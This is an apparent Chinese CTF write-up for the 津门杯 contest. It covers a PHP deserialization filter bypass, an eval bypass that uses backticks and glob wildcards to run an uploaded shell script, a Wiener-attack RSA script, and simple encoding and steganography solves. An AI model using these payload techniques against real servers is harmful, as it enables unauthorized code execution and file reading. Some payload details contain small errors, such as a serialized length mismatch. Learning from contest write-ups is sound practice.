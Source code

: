 # 津门杯WP

前言：由于津门和红帽俩比赛撞在一起，就顺便和队友一起打了，但后面专门去红帽了，自己还是好菜，前面的都全A了

## web1 power_cut

打开后显示：昨天晚上因为14级大风停电了.

猜测跟意外关闭后生成的备份文件相关，访问http://119.3.128.126:32800/.index.php.swp

获得文件，vim -r恢复得到源码：

<?php

class logger{

    public $logFile;
    
    public $initMsg;
    
    public $exitMsg;
    
    function __construct($file){
    
        // initialise variables
    
        $this->initMsg="#--session started--#\n";
    
        $this->exitMsg="#--session end--#\n";
    
        $this->logFile =  $file;
    
        readfile($this->logFile);
    
    }
    
    function log($msg){
    
        $fd=fopen($this->logFile,"a+");
    
        fwrite($fd,$msg."\n");
    
        fclose($fd);
    
    }
    
    function __destruct(){
    
        echo "this is destruct";
    
    }

}

class weblog {

    public $weblogfile;
    
    function __construct() {
    
    $flag="system('cat /flag')";
    
    echo "$flag";
    
    }
    
    function __wakeup(){
    
        // self::waf($this->filepath);
    
        $obj = new logger($this->weblogfile);
    
    }
    
    public function waf($str){
    
        $str=preg_replace("/[<>*#'|?\n ]/","",$str);
    
        $str=str_replace('flag','',$str);
    
        return $str;
    
    }
    
    function __destruct(){
    
        echo "this is destruct";
    
    }

}

$log = $_GET['log'];

$log = preg_replace("/[<>*#'|?\n ]/","",$log);

$log = str_replace('flag','',$log);

$log_unser = unserialize($log);

?>

<html>

<body>

<p><br/>昨天晚上因为14级大风停电了.</p>

</body>

</html>

反序列化考，这里尝试双写绕过，构建反序列化：

<?php

class weblog {

    public $weblogfile;
    
    function __construct() {
    
        $flag="system('cat /flag')";
    
        echo "$flag";
    
    }
    
    function __wakeup(){
    
        // self::waf($this->filepath);
    
        $obj = new logger($this->weblogfile);
    
    }
    
    public function waf($str){
    
        $str=preg_replace("/[<>*#'|?\n ]/","",$str);
    
        $str=str_replace('flag','',$str);
    
        return $str;
    
    }
    
    function __destruct(){
    
        echo "this is destruct";
    
    }}

$a=new weblog();

$a->weblogfile="/flflagag"

print(serialize($a))
访问获得flag: http://119.3.128.126:32800/?log=O:6:"weblog":1:{s:10:"weblogfile";s:5:"/flflagag";}

## web2 hate_php

访问获取源码

<?php

error_reporting(0);

if(!isset($_GET['code'])){

    highlight_file(__FILE__);

}else{

    $code = $_GET['code'];
    
    if(preg_match("/[A-Za-z0-9_$@]+/",$code)){
    
        die('fighting!'); 
    
    }
    
    eval($code);

}
起初尝试异或绕过等思路，但后来和队友发现能用的函数基本无，最后还是在队友帮助下找到思路，构造payload:

POST /index.php?code=?><?=`.+/???/????????[?-[]`;?> HTTP/1.1

Host: 122.112.214.101:20004

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Accept-Encoding: gzip, deflate

Content-Type: multipart/form-data; boundary=---------------------------1541379805177270217137618464

Content-Length: 237

Connection: close

Upgrade-Insecure-Requests: 1

-----------------------------1541379805177270217137618464

Content-Disposition: form-data; name="image"; filename="1.txt"

Content-Type: text/plain

#! /bin/sh

cat /flag

-------------------------1541379805177270217137618464--

## crypto1 rsa

签到题 只有e n c三个参数 直接拿网上写好的脚本就可以了

#!/usr/bin/env python2

import gmpy2

import time

def continuedFra(x, y):

    cF = []
    
    while y:
    
        cF += [x / y]
    
        x, y = y, x % y
    
    return cF

def Simplify(ctnf):

    numerator = 0
    
    denominator = 1
    
    for x in ctnf[::-1]:
    
        numerator, denominator = denominator, x * denominator + numerator
    
    return (numerator, denominator)

def calculateFrac(x, y):

    cF = continuedFra(x, y)
    
    cF = map(Simplify, (cF[0:i] for i in xrange(1, len(cF))))
    
    return cF

def solve_pq(a, b, c):

    par = gmpy2.isqrt(b * b - 4 * a * c)
    
    return (-b + par) / (2 * a), (-b - par) / (2 * a)

def wienerAttack(e, n):

    for (d, k) in calculateFrac(e, n):
    
        if k == 0: continue
    
        if (e * d - 1) % k != 0: continue
    
        phi = (e * d - 1) / k
    
        p, q = solve_pq(1, n - phi + 1, n)
    
        if p * q == n:
    
            return abs(int(p)), abs(int(q))
    
    print 'not find!'

time.clock()

c=58703794202217708947284241025731347400180247075968200121227051434588274043273799724484183411072837136505848853313100468119277511144235171654313035776616454960333999039452491921144841080778960041199884823368775400603713982137807991048133794452060951251851183850000091036462977949122345066992308292574341196418

e=119393861845960762048898683511487799317851579948448252137466961581627352921253771151013287722073113635185303441785456596647011121862839187775715967164165508224247084850825422778997956746102517068390036859477146822952441831345548850161988935112627527366840944972449468661697184646139623527967901314485800416727

n=143197135363873763765271313889482832065495214476988244056602939316096558604072987605784826977177132590941852043292009336108553058140643889603639640376907419560005800390316898478577088950660088975625569277320455499051275696998681590010122458979436183639691126624402025651761740265817600604313205276368201637427

p, q = wienerAttack(e, n)

print '[+]Found!'

print '  [-]p =',p

print '  [-]q =',q

print '  [-]n =',p*q

d = gmpy2.invert(e,(p-1)*(q-1))

print '  [-]d =', d

print '  [-]m is:' + '{:x}'.format(pow(c,d,n)).decode('hex')

print '\n[!]Timer:', round(time.clock(),2), 's'

print '[!]All Done!'

## crypto2 混合编码

这道题比rsa还签到(非密码手觉得)

打开解压后是一串base64直接解码得到

%2F102%2F108%2F97%2F103%2F123%2F113%2F49%2F120%2F75%2F112%2F109%2F56%2F118%2F73%2F76%2F87%2F114%2F107%2F109%2F88%2F120%2F86%2F54%2F106%2F49%2F49%2F77%2F100%2F99%2F71%2F116%2F76%2F122%2F118%2F82%2F121%2F86%2F125
这里的%2f就是url编码，把斜杠转换成这个了，数字不超过128，直接ascii转成字符串就flag

## misc1 bmp

一张bmp格式的图，搜图没结果，扔进010图片也没发现啥问题，winhex扫过一次也感觉没啥，只能Stegsolve
勾选rgb的三个0通道，发现最上面有一串base64，解一下就是flag

###  总结

自己还是太菜，web,misc稍微有点难度就思路提醒,遇上现代密码只能当脚本小子，直接投降。不过还是学到了东西，慢慢来